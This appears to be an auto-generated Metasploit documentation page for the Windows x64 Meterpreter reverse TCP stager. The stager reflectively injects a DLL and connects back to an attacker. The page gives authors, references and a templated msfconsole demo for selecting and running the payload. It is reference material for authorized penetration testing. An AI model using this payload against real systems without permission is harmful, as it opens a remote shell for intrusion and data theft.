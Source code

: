 ## Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager

Inject the meterpreter server DLL via the Reflective Dll 
Injection payload (staged x64). Connect back to the attacker 
(Windows x64)


## Module Name
payload/windows/x64/meterpreter/reverse_tcp

## Authors
* skape
* sf
* OJ Reeves


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/x64/meterpreter/reverse_tcp
msf payload(reverse_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_tcp) > set TARGET <target-id>
msf payload(reverse_tcp) > show options
   ... show and set options ...
msf payload(reverse_tcp) > run
```
    
    